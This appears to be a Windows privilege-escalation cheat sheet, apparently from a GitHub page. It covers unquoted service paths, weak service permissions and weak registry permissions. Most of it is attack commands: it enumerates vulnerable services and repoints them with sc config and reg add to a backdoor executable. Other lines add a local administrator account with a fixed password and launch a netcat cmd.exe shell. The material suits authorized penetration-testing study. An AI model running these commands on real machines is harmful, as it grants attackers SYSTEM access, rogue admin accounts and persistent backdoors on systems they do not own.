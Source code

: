 ### Unquoted Service Path

Technically Unquoted Service Path vulnerability is caused by the CreateProcess function in Windows operating systems which may allow unprivileged loc users to modify the affected executable file as a system privilege in order to elevate their privileged from unprivilege to system privilged.

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
If you look at the registry entry for this service with Regedit you can see the ImagePath value is:

C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
```
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```
If we can drop our malicious exe successfully on one of these paths, upon a restart of the service, Windows will run our exe as SYSTEM.In order to check the permissions of a folder
```
icacls "C:\WeakServices\Weak Service 1\service1.exe"
icacls "C:\WeakServices\Weak Service 1"
icacls "C:\Program Files (x86)\Program Folder"
icacls "C:\Program Files\Photodex\ProShow Producer\Scsiaccess.exe"
```

### Weak Service Permission



```
accesschk.exe -cv MeMe WeakService3
sc config WeakService3 binpath= "C:\Users\MeMe\Desktop\Backdoor.exe" 
sc config WeakService3 binpath= "net user MeMe MeMe@!@#123 /add" 
sc config WeakService3 binpath= "net localgroup Administrators MeMe /add" 

sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

```
### WEAK REGISTRY PERMISSIONS

```
accexxchk.exe -kvw MeMe HKLM\SYSTEM\CurrentControlSet\Services\

reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\WeakService4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\MeMe\Desktop\evilbinary.exe" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\WeakService4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\MeMe\Desktop\evilbinary.exe" /f

sc qc WeakService4
sc stop WeakService4
sc start WeakService4

```
